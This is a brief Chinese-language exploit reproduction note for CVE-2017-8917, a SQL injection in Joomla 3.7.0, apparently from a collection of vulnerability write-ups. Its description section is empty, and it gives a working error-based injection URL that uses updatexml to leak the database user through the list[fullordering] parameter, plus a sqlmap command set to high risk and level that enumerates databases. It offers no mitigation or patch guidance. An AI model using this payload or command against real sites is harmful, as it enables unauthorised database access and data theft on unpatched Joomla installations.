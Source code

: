 （CVE-2017-8917）Joomla 3.7.0 QL注入漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

Joomla 3.7.0

三、复现过程
------------

    http://www.0-sec.org:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

![1
1.png](./resource/(CVE-2017-8917)Joomla3.7.0QL注入漏洞/media/rId24.png)

### 补充

    sqlmap -u "http://www.0-sec.org/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
